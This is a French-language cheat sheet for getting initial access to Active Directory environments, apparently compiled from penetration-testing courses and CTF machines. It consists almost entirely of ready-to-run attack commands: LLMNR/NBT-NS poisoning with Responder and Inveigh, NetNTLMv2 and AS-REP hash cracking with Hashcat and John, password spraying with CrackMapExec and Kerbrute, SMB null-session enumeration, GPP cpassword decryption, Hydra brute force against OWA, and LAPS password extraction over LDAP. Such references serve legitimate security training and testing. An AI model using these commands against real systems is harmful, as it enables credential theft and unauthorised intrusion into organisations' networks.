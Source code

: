 # Obtention d'un Premier Accès

## Empoisonnement LLMNR/NBT-NS

### Depuis Linux (Responder)

```bash
# Lancement de Responder
sudo responder -I eth0 -wfv

# Capture de hashes NetNTLMv2
# Les hashes s'afficheront dans la console et seront stockés dans /usr/share/responder/logs/
```

### Depuis Windows (Inveigh)

```powershell
# Importer le module
Import-Module .\Inveigh.ps1

# Démarrer la capture avec les options de base
Invoke-Inveigh -ConsoleOutput Y -NBNS Y -LLMNR Y -FileOutput Y

# Version C# executable directement
.\Inveigh.exe
```

### Craquage des hashes NetNTLMv2

```bash
# Avec Hashcat (mode 5600)
hashcat -m 5600 captured_hash.txt /usr/share/wordlists/rockyou.txt --force

# Avec John the Ripper
john --format=netntlmv2 captured_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

## Password Spraying

### Avec CrackMapExec

```bash
# Spraying contre SMB
crackmapexec smb 172.16.5.5 -u users.txt -p "Password123!" --continue-on-success

# Spraying contre autres services
crackmapexec winrm 172.16.5.5 -u users.txt -p "Password123!" --continue-on-success
crackmapexec ldap 172.16.5.5 -u users.txt -p "Password123!" --continue-on-success
```

### Avec Kerbrute

```bash
# Spray Kerberos pre-auth
./kerbrute_linux_amd64 passwordspray -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 users.txt "Winter2022!"
```

### Protection contre le verrouillage de compte

```bash
# Vérifier la politique de verrouillage
crackmapexec smb 172.16.5.5 -u username -p password --pass-pol

# Vérifier les bad pwd counts
crackmapexec smb 172.16.5.5 -u username -p password --users | grep "badpwdcount"
```

## AS-REP Roasting

### Identification des comptes vulnérables

```bash
# Avec Impacket
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt

# Avec PowerView
Get-DomainUser -PreauthNotRequired | select samaccountname,useraccountcontrol,userprincipalname
```

### Craquage des hashes AS-REP

```bash
# Avec Hashcat (mode 18200)
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```
## Accès anonymes et configurations faibles

### Sessions NULL SMB

```bash
# Tester l'accès null session
smbclient -N -L //172.16.5.5/
rpcclient -U "" -N 172.16.5.5

# Énumération avec enum4linux
enum4linux -a -u "" -p "" 172.16.5.5
```

### Partages anonymes

```bash
# Lister et monter des partages anonymes
smbclient -N //172.16.5.5/SYSVOL
smbclient -N //172.16.5.5/NETLOGON
```

### Extraction d'informations des GPP (Group Policy Preferences)

```bash
# Recherche de fichiers cpassword dans les Group Policies
findstr /S /I cpassword \\172.16.5.5\sysvol\*.xml

# Déchiffrement avec gpp-decrypt
gpp-decrypt "j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw"
```

## Exploitation d'accès web et portails

### OWA et portails d'entreprise

```bash
# Bruteforce OWA
hydra -L users.txt -P passwords.txt -f 192.168.1.10 https-post-form "/owa/auth.owa:destination=https%3A%2F%2F192.168.1.10%2Fowa&flags=4&forcedownlevel=0&username=^USER^&password=^PASS^&isUtf8=1:Location"
```

## Points importants

- Toujours documenter les credentials obtenus
- Rechercher les modèles/patterns de mots de passe pour de futurs sprays
- Surveiller attentivement les tentatives de connexion pour éviter les verrouillages
- Privilégier les méthodes discrètes (Kerbrute) avant les méthodes bruyantes
- Vérifier d'abord les comptes par défaut et les utilisateurs à faible privilège

## Techniques d'énumération tirées de CTFs réels
#### Énumération LDAP pour mots de passe (Hutch)
Il est parfois possible d'extraire directement des mots de passe LAPS via LDAP:
```bash
ldapsearch -x -H 'ldap://192.168.x.x' -D 'domaine\utilisateur' -w 'MotDePasse' -b 'dc=domaine,dc=tld' "(ms-MCS-AdmPwd=)" ms-MCS-AdmPwd
```

Cette commande recherche spécifiquement l'attribut `ms-MCS-AdmPwd` qui contient les mots de passe LAPS en clair stockés dans Active Directory.
### Fuzzing de sous-domaines (Shibboleth)
Utiliser wfuzz pour découvrir des sous-domaines cachés:
```bash
wfuzz -u http://domaine.tld -H "Host: FUZZ.domaine.tld" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hw 26
```
Le paramètre `--hw 26` ignore les réponses ayant exactement 26 mots (utile pour filtrer les réponses "page non trouvée" standard).
### Analyse de métadonnées de fichiers (Intelligence, Reel)

1. Extraire des informations des métadonnées de PDF avec exiftool:
   ```bash
   exiftool document.pdf
   ```
2. Analyser minutieusement les captures d'écran dans les documents - zoomer sur les post-it, moniteurs ou tableaux blancs visibles qui pourraient contenir des identifiants.
3. Vérifier les noms d'utilisateurs dans les propriétés "Auteur" des documents Office.
## Techniques d'attaque Kerberos tirées de CTFs réels
#### Kerberos Pre-Authentication désactivée (Forest, Sauna)
Identifier et exploiter les utilisateurs dont la pré-authentification Kerberos est désactivée:
```bash
# Avec Impacket
GetNPUsers.py domaine.tld/ -dc-ip 10.10.10.x -request -format hashcat

# Avec Kerbrute (alternative)
kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

Les hash obtenus peuvent être crackés avec Hashcat (mode 18200):
```bash
hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
Cette technique fonctionne car la pré-authentification désactivée permet d'obtenir un TGT chiffré avec la clé de l'utilisateur (dérivée de son mot de passe), qui peut ensuite être craqué hors ligne.